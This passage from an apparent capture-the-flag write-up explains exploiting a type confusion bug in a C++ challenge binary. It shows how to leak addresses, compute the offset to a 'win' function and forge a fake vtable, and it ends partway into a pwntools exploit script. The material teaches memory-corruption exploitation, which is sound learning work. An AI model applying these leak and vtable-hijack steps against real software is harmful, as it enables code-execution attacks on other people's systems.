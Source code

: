 If the `Variable` is not a long, we still get to see its contents, interpreted as a string, aka **dereferenced**.

So lets try corrupting a LONG we control into a STRING, in a similar manner to before, and then lets run some maths on it.

```
$3 = {
  _vptr.Variable = 0x4242424242424242,
  type = STRING,
  value = {
    l = 133742,
    s = <address_of_our_choice>
  }
}
```

We will get the contents of our `address_of_our_choice` (note that it may contain 0x20[\n] so dont use recvline), which in this case is a function address in `code`.

```
leaked read :  0x618835f17be8
```

This is the address of the `print()` function (in this run, its randomized) :

```
0x618835f11dad <_Z3winv>:       0xfa1e0ff3
```

We have a constant offset of 0x5e3b

This address, (the `print()` implementation) will have a constant offset from `win`, which we can calculate in `gdb`

At this point we have the `win`, address and we just need to implement the arbitrary execute primitive from before by crafting a fake `vtable`

## Recap

- Leak the heap base by leaking the `string` on STRING object
- Go from heap base -> code base by leaking the `longVariable::print` in the `vtable`
- Craft a fake `vtable` (create a fake `longVariable` object) and overwrite the `vtable` pointer of another `Variable`
- `print` the latter variable -> `win` !

## Exploit

Heres the final unfiltered exploit code :

```
#!/usr/bin/env python3
from pwn import *

exe = ELF("./main")

win = 0x555555556dad
fake_vtable = 0x5555555717b0
win_offset = 0x0000000000002dad

#Fake obj structure
"""
Variable = {
  _vptr.Variable = 0x5f715a663be8 <vtable for longVariable+16>,
  type = LONG,
  value = {
    l = 0,
    s = 0x0
  }
```